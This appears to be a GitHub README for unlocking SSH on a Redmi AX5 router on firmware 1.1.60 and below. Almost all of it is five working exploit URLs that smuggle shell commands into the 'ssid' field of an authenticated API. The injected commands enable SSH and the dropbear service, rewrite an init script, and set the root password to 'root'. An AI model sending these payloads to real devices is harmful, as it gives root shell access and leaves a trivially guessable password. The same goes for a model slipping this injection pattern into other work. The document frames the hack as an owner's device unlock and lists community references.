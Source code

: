 ## Usage

1. Download & Install firmware.
2. Login and get  `TOKEN`.
3. Edit && Enter payload URL to execute commands.
4. Enjoy.

## Payload

Version: stable version 1.1.60 and below

```
http://192.168.31.1/cgi-bin/luci/;stok=TOKEN/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%0anvram%20set%20ssh_en=1%0anvram%20commit%0a

http://192.168.31.1/cgi-bin/luci/;stok=TOKEN/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%0aecho%20sed%20-i%20's/channel=.*/channel="debug"/g'%20/etc/init.d/dropbear%20>%20/tmp/r.sh%0ash%20/tmp/r.sh%0arm%20/tmp/r.sh%0a

http://192.168.31.1/cgi-bin/luci/;stok=TOKEN/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%0a/etc/init.d/dropbear%20start%0a

http://192.168.31.1/cgi-bin/luci/;stok=TOKEN/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%0a/etc/init.d/dropbear%20enable%0a

http://192.168.31.1/cgi-bin/luci/;stok=TOKEN/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%0aecho%20echo%20-e%20"root\nroot"%20|%20passwd%20root%20>%20/tmp/pass.sh%0ash%20/tmp/pass.sh%0arm%20/tmp/pass.sh%0a
```

## Ref

* [解锁京东云 Redmi AX5 ssh  (m1ku.in)](https://m1ku.in/archives/783)
* https://github.com/NyaMisty/luadec_miwifi
* [[Ax5京东云\]1.1.47固件下载地址 - 京东云无线宝 - 恩山无线论坛 - Powered by Discuz! (right.com.cn)](https://www.right.com.cn/forum/thread-4128465-1-1.html)

